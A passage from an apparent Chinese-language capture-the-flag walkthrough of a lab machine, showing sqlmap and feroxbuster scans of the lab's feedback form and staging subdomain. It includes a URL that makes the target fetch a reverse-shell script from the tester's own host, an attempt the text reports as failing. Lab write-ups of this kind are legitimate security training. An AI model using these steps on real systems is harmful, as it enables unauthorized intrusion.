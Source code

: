 返回包如下：

```bash
HTTP/1.1 200 OK
Date: Mon, 01 Apr 2024 16:42:19 GMT
Server: Apache/2.4.57 (Debian)
X-Origin-Domain: staging-env.boxing.hmv
Vary: Accept-Encoding
Content-Length: 154
Connection: close
Content-Type: text/html; charset=UTF-8

<div style='background-color: #0a0a0a; color: #6dbf47; font-family: Arial, sans-serif; padding: 20px; text-align: center;'>Thanks for your feedback!</div>
```

不知道会不会存到数据库，尝试sqlmap扫描一下：

```bash
sqlmap -r temp.txt --batch
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302329.png" alt="image-20240402012514000" style="zoom: 50%;" />

看来不行，多番尝试以后没有什么发现，再收集一下信息：

### 查找一下中间件漏洞

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302330.png" alt="image-20240402012514000" style="zoom:33%;" />

果然没有好搞的。。。。

### 信息搜集

发现了dns：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302331.png" alt="image-20240402203114382" style="zoom:50%;" />

尝试做一个解析：

```apl
172.20.10.14   staging-env.boxing.hmv
```

接着访问一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302332.png" alt="image-20240402203624041" style="zoom: 33%;" />

阔以，尝试一下请求本地的文件：

```text
http://staging-env.boxing.hmv/index.php?url=http%3A%2F%2F172.20.10.8%3A8888%2Frevershell.php
```

但是无效，再扫一下：

```bash
feroxbuster -u http://staging-env.boxing.hmv/
```
